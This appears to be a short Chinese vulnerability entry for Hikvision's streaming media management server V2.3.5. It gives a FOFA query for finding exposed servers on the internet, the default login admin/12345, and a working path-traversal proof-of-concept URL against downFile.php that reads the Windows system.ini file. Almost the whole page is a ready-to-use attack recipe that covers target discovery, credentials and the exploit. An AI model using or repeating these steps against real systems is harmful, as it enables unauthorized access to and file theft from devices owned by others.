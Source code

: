 <languages  />

<translate>

漏洞影響
--------

</translate>

    杭州海康威视数字技术股份有限公司 流媒体管理服务器 V2.3.5

FOFA
----

    FOFA：title="流媒体管理服务器"

<translate>

默認登錄信息
------------

</translate>

    admin/12345

POC
---

    http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini

<translate> 成功讀取 C:/windows/system.ini </translate>

<translate>

參考
----

</translate> <https://mp.weixin.qq.com/s/bnXxGWs0ft0G6Qcdlf9BDw>